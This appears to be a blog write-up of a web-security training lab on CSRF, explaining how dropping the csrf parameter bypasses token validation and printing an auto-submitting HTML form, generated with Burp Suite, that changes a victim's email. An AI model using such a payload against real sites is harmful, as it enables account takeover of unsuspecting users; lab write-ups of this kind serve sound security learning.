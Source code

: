```yaml
---
layout: post
title:  "CSRF where token validation depends on token being present"
date:   2024-10-01 09:39:54 +0530
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter` 

## Solution

Like the First CSRF lab which we solved is **"CSRF where token validation depends on request method"** here also looks the same where we have a **Email update** functionality and if we pass the values correctly, we will be responded with status code of `302`

![]({{ site.baseurl }}/assets/images/csrf-6.png) 

When I change something to the CSRF value like changing the last letter of value or something.. we will get an error like `Invalid CSRF token` 

![]({{ site.baseurl }}/assets/images/csrf-7.png) 

But what happens when we remove the entire token, think of it like `&csrf=guhoud09u` if I change something to their value it is validating based on the token and if the token isn't there it is not going to be validated.. So, I removed `&csrf=` entirely including the parameter and it worked.. request passes through and email got updated.. So it is vulnerable to a CSRF attack 

![]({{ site.baseurl }}/assets/images/csrf-8.png) 

Built a CSRF POC of the request using burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac400ed0306a804803f999e002600ec.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Post the exploit POC into the Exploit server body and then `store -> Deliver the exploit to victim` and which will solve our lab 

![]({{ site.baseurl }}/assets/images/csrf-9.png) 